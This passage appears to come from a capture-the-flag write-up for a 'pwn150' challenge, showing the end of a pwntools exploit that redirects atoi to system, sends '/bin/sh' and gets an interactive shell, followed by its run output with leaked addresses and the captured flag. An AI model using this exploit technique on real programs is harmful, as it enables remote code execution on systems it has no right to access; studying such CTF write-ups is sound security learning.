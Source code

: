 # Plan - step 6: Change atoi to system
system = atoi + 0xe930
r.sendline('3')
r.sendline('2')
r.send(p32(system))
garbage = r.recv()

# Use the menu to call system
r.sendline("/bin/sh\x00")

r.interactive()

{% endhighlight %}

{% highlight text %}
➜  pwn150 python ./exploit.py
[+] Opening connection to 104.199.132.199 on port 1970: Done
[*] Leak: 0x8f2d008
[*] Size: 0xff11dfb3
[*] Atoi: 0xf761c860
[*] Switching to interactive mode
$ cat /tmp/flag
BCTF{3asy_h0uSe_oooof_f0rce}
$
{% endhighlight %}


